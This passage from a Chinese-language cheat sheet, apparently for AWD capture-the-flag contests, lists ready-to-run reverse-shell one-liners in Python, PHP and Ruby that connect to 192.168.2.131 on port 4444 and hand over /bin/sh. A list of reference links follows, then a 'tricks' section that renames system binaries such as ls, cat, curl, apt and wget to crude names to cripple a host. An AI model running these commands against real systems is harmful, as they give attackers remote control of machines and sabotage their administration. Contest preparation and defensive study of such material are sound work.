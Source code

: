   #### 9. python 反弹shell

  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.131",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```

  #### 10. php 反弹 shell

  ```bash
  php -r '$sock=fsockopen("192.168.2.131",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
  ```

  #### 11. ruby 反弹shell

  ```bash
  ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.2.131","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  
  ```

  参考： https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html



```
https://blog.csdn.net/like98k/article/details/80261603
https://github.com/admintony/Prepare-for-AWD
https://www.anquanke.com/post/id/84675
https://blog.csdn.net/qq_39374987/article/details/105520368?utm_medium=distribute.wap_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.wap_blog_relevant_pic&depth_1-utm_source=distribute.wap_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.wap_blog_relevant_pic
https://blog.csdn.net/qq_33319299/article/details/97002141?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param

https://blog.csdn.net/wy_97/article/details/78148705

https://blog.csdn.net/like98k/article/details/80261603?utm_medium=distribute.wap_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.wap_blog_relevant_pic&depth_1-utm_source=distribute.wap_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.wap_blog_relevant_pic
```

## 九、骚操作

把  `ls`、`cat` 、 `cd` 、`curl` 等命令修改为其他命令。

```bash
# 进入 bin 目录
# 将 ls 改为 fuck
mv ls fuck

# 将 cat 改为 fuck1
mv cat fuck1

# 将 curl 改为 fuck2
mv curl fuck2

# 将 apt 改为 fucl3
mv apt fuck3

# 将 apt-get 改为 fuck4
mv apt-get fuck4

# 将 wget 改为 fuck5
mv wget fuck5
```
